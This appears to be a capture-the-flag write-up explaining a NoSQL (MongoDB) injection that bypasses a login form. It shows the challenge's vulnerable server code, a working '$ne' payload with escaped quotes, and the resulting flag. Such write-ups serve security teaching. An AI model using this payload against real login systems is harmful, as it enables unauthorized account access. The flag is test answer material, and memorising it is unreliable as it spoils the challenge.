

This task involves the use of NoSQL Injection.

---

First, we are greeted by a login and password entry form. Let's open the `Network` tab and see what data the web application sends when the form is submitted.


We see JSON data. The payload looks like this:


```json
{"email":"admin","password":"123123"}
```


I googled “Nosql injection hacktricks” and found on [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html) guide with example of NoSQL Injection payload:


> [!TIP]
> [**HackTricks**](https://book.hacktricks.wiki/en/index.html) – holy bible containing examples of payloads and cheat sheets for a wide variety of purposes and attack vectors.


Візьмемо перший пейлоад з цього списку і поміняємо перше ключ значення з `username → email`:


```json
{"email": {"$ne": null}, "password": {"$ne": null} }
```


Let's examine, what's going on here:

- `{"$ne": null}` = "NOT equal **NULL**"

- `$` - **special prefix** for MongoDB operators, indicating that the value after it **is a command**
  
- `$ne` – operator for MongoDB, meaning “not equal” 

> [!NOTE]
> Other MongoDB [operators](https://www.w3schools.com/mongodb/mongodb_query_operators.php)


In the context of injection:
* **Logic:** find a user where the username **exists** (not null) AND the password **exists** (not null)
* **Result:** should return **any** user from the database


But we will get an error:


The file with the server-side code is provided for the task. While exploring `server.js`, I noticed the following section:


```javascript
    // Handle login form submission with JSON
    app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });
```

here:

```javascript
email: email.startsWith("{") && email.endsWith("}") 
  ? JSON.parse(email)  // if starts with "{" and ends with "}" - parse as JSON
  : email,             // otherwise - use as a string
```


we ran in a problem:


```javascript
"email": "{"$ne": null}"
         ^     ^
beginning|     |The problem - the second paw covers the first one!
```


`JSON.parse` see as:


* `"email": "{"` - and thinks that the value = `{`
* `$ne": null}"` - unclear text → **ERROR**


To bypass this, we need escape `"` characters within `{...}`:


```json
{
  "email": "{\"$ne\": null}"
}
```


The final payload will look like this:


```json
{
    "email" : "{\"$ne\":null}", 
    "password": "{\"$ne\":null}"
}
```

> [!NOTE]
> `\"` - escaped paw (does not close the string, but is part of the text)

For JSON parser it will look like this:





Answer:


Flag from base64:

`picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}`
